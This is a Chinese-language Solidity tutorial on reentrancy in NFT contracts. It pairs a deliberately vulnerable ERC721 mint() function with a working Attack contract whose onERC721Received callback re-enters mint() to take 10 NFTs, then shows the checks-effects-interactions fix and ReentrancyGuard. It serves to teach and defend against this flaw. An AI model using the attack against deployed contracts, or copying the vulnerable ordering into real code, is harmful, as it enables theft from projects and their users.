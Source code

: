 # 16. NFT 重入攻击

介绍 NFT 合约的重入攻击漏洞，并攻击一个有漏洞的 NFT 合约，铸造 10 个 NFT。

## NFT 重入风险

我们在[重入攻击](./01.md)中讲过，重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如`fallback`函数）循环调用合约，将合约中资产转走或铸造大量代币。转账 NFT 时并不会触发合约的`fallback`或`receive`函数，为什么会有重入风险呢？

这是因为 NFT 标准（ERC721/ERC1155）为了防止用户误把资产转入黑洞而加入了安全转账：如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收 NFT 资产。例如 ERC721 的 `safeTransferFrom()` 函数会调用目标地址的 `onERC721Received()` 函数，而黑客可以把恶意代码嵌入其中进行攻击。

我们总结了 ERC721 和 ERC1155 有潜在重入风险的函数：

![](../../pic/solidity-4-16-1.png)

## 漏洞例子

下面我们学习一个有重入漏洞的 NFT 合约例子。这是一个 ERC721 合约，每个地址可以免费铸造一个 NFT，但是我们通过重入攻击可以一次铸造多个。

### 漏洞合约

`NFTReentrancy`合约继承了 ERC721 合约，它主要有 2 个状态变量，`totalSupply`记录 NFT 的总供给，`mintedAddress`记录已铸造过的地址，防止一个用户多次铸造。它主要有 2 个函数：

- 构造函数: 初始化 ERC721 NFT 的名称和代号。
- `mint()`: 铸造函数，每个用户可以免费铸造 1 个 NFT。**注意：这个函数有重入漏洞！**

```js
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

### 攻击合约

`NFTReentrancy`合约的重入攻击点在`mint()`函数会调用 ERC721 合约中的`_safeMint()`，从而调用转入地址的`_checkOnERC721Received()`函数。如果转入地址的`_checkOnERC721Received()`包含恶意代码，就能进行攻击。

`Attack`合约继承了 IERC721Receiver 合约，它有 1 个状态变量 nft 记录了有漏洞的 NFT 合约地址。它有 3 个函数:

- 构造函数: 初始化有漏洞的 NFT 合约地址。
- `attack()`: 攻击函数，调用 NFT 合约的`mint()`函数并发起攻击。
- `onERC721Received()`: 嵌入了恶意代码的 ERC721 回调函数，会重复调用`mint()`函数，并铸造 10 个 NFT。

```js
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }

    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造10个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## 预防方法

主要有两种办法来预防重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

1. 检查-影响-交互模式：它强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。我们可以用这个模式修复有漏洞的`mint()`函数:

```js
function mint() payable external {
    // 检查是否mint过
    require(mintedAddress[msg.sender] == false);
    // 增加total supply
    totalSupply++;
    // 记录mint过的地址
    mintedAddress[msg.sender] = true;
    // mint
    _safeMint(msg.sender, totalSupply);
}
```

2. 重入锁：它是一种防止重入函数的修饰器（modifier）。建议直接使用 OpenZeppelin 提供的[ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol)
